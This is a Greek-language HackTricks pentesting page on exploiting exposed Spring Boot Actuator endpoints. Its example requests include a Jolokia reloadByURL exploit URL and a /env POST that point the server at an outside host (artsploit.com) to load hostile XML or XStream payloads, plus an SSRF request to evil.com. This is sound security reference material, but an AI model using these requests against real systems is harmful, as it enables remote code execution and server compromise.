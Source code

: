# Spring Actuators

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Από** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Εκμετάλλευση Spring Boot Actuators

**Ελέγξτε την αρχική ανάρτηση από** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Βασικά Σημεία:**

* Οι Spring Boot Actuators καταχωρούν endpoints όπως `/health`, `/trace`, `/beans`, `/env`, κ.λπ. Σε εκδόσεις 1 έως 1.4, αυτά τα endpoints είναι προσβάσιμα χωρίς αυθεντικοποίηση. Από την έκδοση 1.5 και μετά, μόνο τα `/health` και `/info` είναι μη ευαίσθητα από προεπιλογή, αλλά οι προγραμματιστές συχνά απενεργοποιούν αυτή την ασφάλεια.
* Ορισμένα endpoints Actuator μπορούν να εκθέσουν ευαίσθητα δεδομένα ή να επιτρέψουν επιβλαβείς ενέργειες:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, και `/heapdump`.
* Στο Spring Boot 1.x, οι actuators καταχωρούνται κάτω από τη ρίζα URL, ενώ στο 2.x, βρίσκονται κάτω από τη βάση `/actuator/`.

### **Τεχνικές Εκμετάλλευσης:**

1. **Απομακρυσμένη Εκτέλεση Κώδικα μέσω '/jolokia'**:
* Το endpoint `/jolokia` εκθέτει τη βιβλιοθήκη Jolokia, η οποία επιτρέπει HTTP πρόσβαση σε MBeans.
* Η ενέργεια `reloadByURL` μπορεί να εκμεταλλευτεί για να επαναφορτώσει τις ρυθμίσεις καταγραφής από μια εξωτερική διεύθυνση URL, κάτι που μπορεί να οδηγήσει σε τυφλό XXE ή απομακρυσμένη εκτέλεση κώδικα μέσω κατασκευασμένων XML ρυθμίσεων.
* Παράδειγμα URL εκμετάλλευσης: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Τροποποίηση Ρυθμίσεων μέσω '/env'**:
* Εάν υπάρχουν βιβλιοθήκες Spring Cloud, το endpoint `/env` επιτρέπει την τροποποίηση περιβαλλοντικών ιδιοτήτων.
* Οι ιδιότητες μπορούν να χειριστούν για να εκμεταλλευτούν ευπάθειες, όπως η ευπάθεια αποσυμπίεσης XStream στην υπηρεσία Eureka serviceURL.
*   Παράδειγμα αίτησης POST εκμετάλλευσης:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Άλλες Χρήσιμες Ρυθμίσεις**:
* Ιδιότητες όπως `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, και `spring.datasource.tomcat.max-active` μπορούν να χειριστούν για διάφορες εκμεταλλεύσεις, όπως SQL injection ή τροποποίηση συμβολοσειρών σύνδεσης βάσης δεδομένων.

### **Πρόσθετες Πληροφορίες:**

* Μια ολοκληρωμένη λίστα με τις προεπιλεγμένες actuators μπορεί να βρεθεί [εδώ](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Το endpoint `/env` στο Spring Boot 2.x χρησιμοποιεί μορφή JSON για την τροποποίηση ιδιοτήτων, αλλά η γενική έννοια παραμένει η ίδια.

### **Σχετικά Θέματα:**

1. **Env + H2 RCE**:
* Λεπτομέρειες σχετικά με την εκμετάλλευση του συνδυασμού του endpoint `/env` και της βάσης δεδομένων H2 μπορούν να βρεθούν [εδώ](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF στο Spring Boot μέσω Λανθασμένης Ερμηνείας Ονόματος Διαδρομής**:
* Η διαχείριση παραμέτρων μήτρας (`;`) από το πλαίσιο Spring σε διαδρομές HTTP μπορεί να εκμεταλλευτεί για Server-Side Request Forgery (SSRF).
*   Παράδειγμα αίτησης εκμετάλλευσης:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
